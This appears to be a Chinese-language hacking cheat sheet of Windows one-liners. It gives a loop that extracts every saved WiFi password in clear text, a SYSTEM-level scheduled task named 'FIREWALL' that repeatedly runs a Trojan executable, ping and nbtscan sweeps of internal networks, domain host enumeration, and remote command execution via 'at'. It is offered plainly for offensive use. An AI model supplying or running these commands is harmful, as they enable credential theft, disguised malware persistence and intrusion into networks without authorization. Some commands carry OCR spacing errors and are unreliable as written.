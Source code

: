 ### 长命令

一键获取WiFI密码：**

```
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan showprofiles') do @echo%j | findstr -i -v echo | netsh wlan show profiles %jkey=clear
```

查看是否支持PowerShell：

```
if defined PSModulePath (echo support powershell) else (echo not support powershell)
```

添加任务计划：

```
schtasks.exe  /Create /RU"SYSTEM" /SC MINUTE /MO 45 /TN FIREWALL /TR "c:/muma.ex    e" /ED 2017/12/31
```

nbtscan扫描整个网络:

```
nbtscan -r 192.168.200.0/24
```

ping 扫描内网存活主机：

```
for /l %i in (1,1,255) do @ping 192.168.200.%i -w 1 -n 1 | find /i"ttl"
```

域机器对应的IP:

```
FOR /F "eol=- tokens=1 delims=\ " %a IN('net view') DO @(echo name: %a, ip: & ping %a -w 1 -n 1 | find /i "ttl" & echo.)
```

找主机名：

```
for /l %i in (1,1,255) do @ping -a 192.168.200.%i -w 1 -n 1 | find /i "Pinging"
```

找B段：

```
for /l %i in (1,1,255) do @ping -a 10.0.%i.1 -w 1 -n 1 | find /i "Pinging"
```

> 将`Pinging`改成`Ping`就可以适用于Win7

### 远程命令执行

##### at（系统权限）

利用计划任务`at`命令，常用的方法（**系统权限**）：

```
net time

at \\127.0.0.1 23:00 c:\winnt\system32/viliosn.exe

at \\127.0.0.1 1 delete /yes #删除本机1号任务
```
